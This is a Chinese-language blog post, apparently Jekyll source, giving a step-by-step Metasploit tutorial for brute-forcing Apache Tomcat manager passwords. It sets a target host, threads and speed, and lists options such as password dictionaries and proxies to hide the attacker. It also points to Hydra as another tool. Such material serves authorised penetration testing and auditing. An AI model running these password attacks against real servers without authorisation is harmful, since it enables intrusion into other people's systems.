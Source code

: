 ```yaml
---
layout: post
title: 使用Metasploit破解Tomcat密码
---
```


Apache Tomcat是Java web应用使用最广的服务程序，而且很多Tomcat服务都使用默认配置。本帖利用暴露的Tomcat web管理器破解密码，web管理器允许Tomcat管理员启动、停止、重启应用。

* [Ubuntu 16.04安装Tomcat 8](http://blog.topspeedsnail.com/archives/4551)

### 下面我使用Metasploit暴力破解Tomcat管理员密码。

在启动Metasploit之前，先启动postgresql数据库服务：

{% highlight shell %}
# service postgresql start
{% endhighlight %}

启动Metasploit控制台：

{% highlight shell %}
# msfconsole
{% endhighlight %}

加载tomcat_mgr_login模块：

{% highlight shell %}
> use auxiliary/scanner/http/tomcat_mgr_login
{% endhighlight %}

显示选项：

{% highlight shell %}
> show options
{% endhighlight %}

![使用Metasploit破解Tomcat密码]({{ site.baseurl }}/images/2016/5/Screenshot from 2016-05-15 18-41-32.png)

设置目标主机：

{% highlight shell %}
> set rhosts 192.168.0.103
{% endhighlight %}

为了提高破解速度可以启动多个线程，但是不要太多：

{% highlight shell %}
> set threads 3
{% endhighlight %}

为了防止服务器负载过高，限制请求速度：

{% highlight shell %}
> set bruteforce_speed 3
{% endhighlight %}

开始破解破解：

{% highlight shell %}
> run
{% endhighlight %}

输出尝试登录信息，带+的是正确密码

![使用Metasploit破解Tomcat密码]({{ site.baseurl }}/images/2016/5/Screenshot from 2016-05-15 18-53-30.png)

如果要想在找到正确密码之后停止，设置 set STOP_ON_SUCCESS true。

***

更多选项：

* BLANK_PASSWORDS：测试空密码
* PASSWORD：测试指定密码
* PASS_FILE：字典文件
* Proxies：代理，隐藏自己
* RHOSTS：Tomcat主机，也可以是文件
* RPORT：Tomcat使用的端口
* STOP_ON_SUCCESS：找到密码之后停止
* USER_FILE：用户名文件
* USER_PASS_FILE：用户：密码组合文件

*****

也可以使用Hydra破解Tomcat密码，使用http-head选项，-L指定用户名文件，-P指定密码文件；

* [使用Hydra通过ssh破解密码](http://topspeedsnail.com/kydra-crack-ssh-and-avoid-attack/)